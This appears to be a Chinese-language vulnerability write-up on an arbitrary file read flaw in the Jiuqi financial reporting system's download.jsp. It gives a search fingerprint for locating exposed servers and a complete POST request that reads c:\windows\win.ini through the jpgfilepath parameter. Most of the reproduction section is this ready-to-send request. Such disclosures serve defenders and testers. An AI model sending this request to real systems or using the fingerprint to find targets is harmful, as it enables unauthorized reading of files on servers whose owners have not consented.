 # 久其财务报表 download.jsp 任意文件读取漏洞

## 漏洞描述

久其财务报表 download.jsp 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的信息

## 漏洞影响

<a-checkbox checked>久其财务报表</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="/netrep/"</a-checkbox></br>

## 漏洞复现

登录路径如下



![img](../../../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313145950658.png)



发送请求包

```plain
POST /netrep/ebook/browse/download.jsp HTTP/1.1
Host: 
Content-Length: 55
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded

jpgfilepath=c:\windows\win.ini
```

![image-20220321114620970](../../../.vuepress/public/img/image-20220321114620970.png)